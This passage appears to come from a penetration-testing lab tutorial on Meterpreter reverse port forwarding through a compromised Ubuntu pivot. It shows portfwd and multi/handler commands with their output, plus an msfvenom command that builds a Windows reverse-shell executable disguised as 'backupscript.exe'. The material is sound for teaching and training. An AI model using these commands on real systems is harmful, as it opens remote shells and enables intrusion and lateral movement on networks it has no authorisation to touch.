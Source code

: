 ### Meterpreter Reverse Port Forwarding

Similar to local port forwards, Metasploit can also perform `reverse port forwarding` with the below command, where you might want to listen on a specific port on the compromised server and forward all incoming shells from the Ubuntu server to our attack host. We will start a listener on a new port on our attack host for Windows and request the Ubuntu server to forward all requests received to the Ubuntu server on port `1234` to our listener on port `8081`.

We can create a reverse port forward on our existing shell from the previous scenario using the below command. This command forwards all connections on port `1234` running on the Ubuntu server to our attack host on local port (`-l`) `8081`. We will also configure our listener to listen on port 8081 for a Windows shell.

**Reverse Port Forwarding Rules**

Meterpreter Tunneling & Port Forwarding

```shell-session
meterpreter > portfwd add -R -l 8081 -p 1234 -L 10.10.14.18

[*] Local TCP relay created: 10.10.14.18:8081 <-> :1234
```

**Configuring & Starting multi/handler**

Meterpreter Tunneling & Port Forwarding

```shell-session
meterpreter > bg

[*] Backgrounding session 1...
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LPORT 8081 
LPORT => 8081
msf6 exploit(multi/handler) > set LHOST 0.0.0.0 
LHOST => 0.0.0.0
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 0.0.0.0:8081 
```

We can now create a reverse shell payload that will send a connection back to our Ubuntu server on `172.16.5.129`:`1234` when executed on our Windows host. Once our Ubuntu server receives this connection, it will forward that to `attack host's ip`:`8081` that we configured.

**Generating the Windows Payload**

Meterpreter Tunneling & Port Forwarding

```shell-session
AIceBear@htb[/htb]$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=1234

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: backupscript.exe
```
